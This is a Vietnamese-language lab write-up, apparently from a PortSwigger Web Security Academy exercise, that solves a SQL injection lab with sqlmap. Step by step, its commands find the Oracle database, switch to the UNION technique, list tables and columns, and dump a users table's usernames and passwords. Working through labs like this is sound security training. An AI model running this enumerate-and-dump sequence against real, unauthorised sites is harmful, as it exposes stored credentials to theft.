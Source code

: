 ```sql!
sqlmap -u https://0a4c00480391416d861fc53400890015.web-security-academy.net/filter?category=Gifts  --batch --dbs
```

![ảnh](https://hackmd.io/_uploads/BJY8eAH26.png)

- tấn công với chế độ mặc định --batch khá lâu và sqlmap gợi ý mình chạy với option --threads vì mình đang chạy single-thread
- sqlmap cho biết CSDL ở đây là Oracle nên mình chỉ loại CSDL luôn cho sqlmap là --dbms=Oracle
- cùng với đó mình chỉnh từ chế độ tấn công default "BEUSTQ" trên sqlmap sang --technique=U là kiểu tấn công UNION với lệnh sau

```sql!
sqlmap -u https://0a4c00480391416d861fc53400890015.web-security-academy.net/filter?category=Gifts  --batch --dbms=Oracle  -dbs --threads=10 --technique=U
```

![ảnh](https://hackmd.io/_uploads/B1LkGAS3p.png)

- và mình sqlmap có thể tấn công UNION

![ảnh](https://hackmd.io/_uploads/H1JDb0ShT.png)

- cùng với đó mình được 7 database

- mình vào từng database và xem các tables cho đến database **PETER** và nó là database mình cần tìm

```sql!
sqlmap -u https://0a4c00480391416d861fc53400890015.web-security-academy.net/filter?category=Gifts  --batch --dbms=Oracle  -D PETER --tables
```

![ảnh](https://hackmd.io/_uploads/B1XzNCS3p.png)

mình thấy có table **USERS_VPHRXN** có thể chứa các users

- để kiểm tra mình xem các cột của bảng này bằng lệnh

```sql!
sqlmap -u https://0a4c00480391416d861fc53400890015.web-security-academy.net/filter?category=Gifts  --batch --dbms=Oracle  -D PETER -T USERS_VPHRXN --columns
```

![ảnh](https://hackmd.io/_uploads/SJTq4CHnp.png)

và mình thấy có username và password

- mình dump ra thông tin của bảng này bằng lệnh

```sql!
sqlmap -u https://0a4c00480391416d861fc53400890015.web-security-academy.net/filter?category=Gifts  --batch --dbms=Oracle  -D PETER -T USERS_VPHRXN --dump
```

![ảnh](https://hackmd.io/_uploads/Hy21HASh6.png)

